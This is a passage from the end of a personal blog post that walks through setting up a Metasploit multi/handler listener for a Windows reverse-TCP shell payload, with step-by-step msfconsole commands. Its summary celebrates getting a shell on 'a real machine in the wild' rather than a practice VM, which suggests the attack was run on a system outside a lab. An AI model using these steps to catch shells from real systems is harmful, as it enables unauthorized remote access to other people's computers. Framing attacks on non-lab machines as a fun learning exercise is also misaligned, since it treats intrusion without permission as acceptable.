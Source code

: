 Now we need to start listening to for these payloads to call back to our computer. To do this, we're going to use `msfconsole` from the Metasploit Framework. To start metasploit, just run the command:

```
$ msfconsole
```

Then, we need to select the correct handler to use (this is the most common handler to use for simple reverse shells)

```
msf5 > use exploit/multi/handler
```

We also need to tell Metasploit which payload we're expecting to call back.

```
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
```

Then pass in the info we used earlier to generate the payload.

```
msf5 exploit(multi/handler) > set LHOST [YOUR_IP]
msf5 exploit(multi/handler) > set LPORT [YOUR_PORT]
```

Then, we can start listening for our payloads :)

```
msf5 exploit(multi/handler) > exploit
```

![Metasploit Exploit Screenshot](/assets/img/2020-09-23-metasploit.png)

# Summary

I learned quite a lot from this small exercise and it was fun researching this on my own rather than just following tutorials. I think the appeal is this doesn't use a pre-made vulnerable virtual machine, but rather a real machine in the wild. It is super gratifying once you're able to get a shell without having to have someone quite you through random commands, most of which you have no idea what they do. Overall, I learned how to generate payloads with `msfvenom`, use `msfconsole` to handle payload shell connections, and generate real-world scenarios which this workflow could be used on.
